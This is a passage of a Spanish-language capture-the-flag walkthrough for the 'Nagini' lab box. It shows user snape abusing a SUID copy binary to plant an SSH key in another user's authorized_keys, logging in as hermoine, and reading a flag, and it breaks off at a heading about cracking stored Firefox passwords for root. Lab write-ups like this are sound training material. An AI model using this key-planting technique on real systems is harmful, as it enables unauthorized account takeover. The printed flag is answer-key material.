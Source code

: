 ```bash
drwxr-xr-x 4 snape snape 4096 Apr  4  2021 ..
-rw------- 1 snape snape 1876 Nov 15 01:54 id_rsa
-rw-r--r-- 1 snape snape  394 Nov 15 01:54 id_rsa.pub
-rw-r--r-- 1 snape snape  222 Apr  4  2021 known_hosts
```
Ya está creada.

Ahora copiamos la llave pública en un archivo temporal que llamaremos **authorized_keys** en el **directorio tmp**. Le asignaremos los permisos correctos para que funcione la llave pública (640) y la copiaremos dentro del **directorio .ssh** del **usuario hermoine**:
```bash
snape@Nagini:~$ cp .ssh/id_rsa.pub /tmp/authorized_keys
snape@Nagini:~$ chmod 640 /tmp/authorized_keys 
snape@Nagini:~$ cd /home/hermoine/bin
snape@Nagini:/home/hermoine/bin$ ./su_cp /tmp/authorized_keys ../.ssh/authorized_keys
```
Con esto ya debería estar listo nuestro acceso.

Probemos a intentar autenticarnos al **servicio SSH** con el **usuario hermoine**:
```bash
snape@Nagini:/home/hermoine/bin$ ssh hermoine@localhost
Enter passphrase for key '/home/snape/.ssh/id_rsa': 
Linux Nagini 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Apr  4 16:43:01 2021 from ::1
hermoine@Nagini:~$ whoami
hermoine
```
Listo, ya somos el **usuario hermoine**.

Podemos ver el segundo horocrux:
```bash
hermoine@Nagini:~$ ls -la
total 28
drwxr-xr-x 6 hermoine hermoine 4096 Apr  4  2021 .
drwxr-xr-x 4 root     root     4096 Apr  4  2021 ..
drwxr-xr-x 3 hermoine hermoine 4096 Nov 15 01:34 bin
drwx------ 3 hermoine hermoine 4096 Apr  4  2021 .gnupg
-r--r----- 1 hermoine hermoine   75 Apr  4  2021 horcrux2.txt
drwx------ 5 hermoine hermoine 4096 Jun  1  2019 .mozilla
drwxr-xr-x 2 hermoine hermoine 4096 Nov 15 01:59 .ssh
hermoine@Nagini:~$ cat horcrux2.txt 
horcrux_{NDogSGVsZ2EgSHVmZmxlcHVmZidzIEN1cCBkZXN0cm95ZWQgYnkgSGVybWlvbmU=}
```
Busquemos cómo escalar privilegios a **Root**.

<h2 id="Mozilla">Crackeando Contraseña de Almacenada de Moziila para ser Root</h2>
